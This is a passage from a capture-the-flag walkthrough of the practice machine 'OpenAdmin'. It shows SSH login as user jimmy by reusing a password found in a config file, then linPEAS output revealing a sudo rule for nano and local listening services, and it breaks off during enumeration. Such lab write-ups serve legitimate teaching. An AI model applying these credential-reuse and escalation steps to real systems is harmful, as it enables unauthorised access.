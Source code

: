 ```
  ),
);

?>
```
Now, with this credentials if we poke around into the mysql database we can find credentials for ona 'admin:admin' unfortunately this don't leads to anywhere so let's see if we can use the discovered password to ssh as another user:  
```
[root@kali OpenAdmin ]$ ssh -l jimmy $TARGET                      
jimmy@10.10.10.171's password:
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-70-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sun Apr  3 10:08:09 UTC 2022

  System load:  0.0               Processes:             167
  Usage of /:   31.0% of 7.81GB   Users logged in:       0
  Memory usage: 14%               IP address for ens160: 10.10.10.171
  Swap usage:   0%


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

39 packages can be updated.
11 updates are security updates.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Sat Apr  2 16:53:11 2022 from 10.10.14.24
-bash: warning: setlocale: LC_ALL: cannot change locale (en_GB.UTF-8)
jimmy@openadmin:~$
```
And we can login as jimmy.  
Unfortunately, under the home directory we cannot see the user.txt flag, so this means that we need to escalate to joanna user.  
Now following our standard approach, we can run linPEAS looking for possible privilege escalation vectors.    
After we run linPEAS, we can notice the following:
```
╔══════════╣ Checking 'sudo -l', /etc/sudoers, and /etc/sudoers.d
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid
Sudoers file: /etc/sudoers.d/joanna is readable
joanna ALL=(ALL) NOPASSWD:/bin/nano /opt/priv
```
Unfortunately, we cannot leverage this, since we are jimmy user, but let's keep this in mind for root privilege escalation.  
Digging deeper we can find the following services listening:  
```
╔══════════╣ Active Ports
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#open-ports
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:52846         0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -
tcp6       0      0 :::80                   :::*                    LISTEN      -
tcp6       0      0 :::22                   :::*                    LISTEN      -
```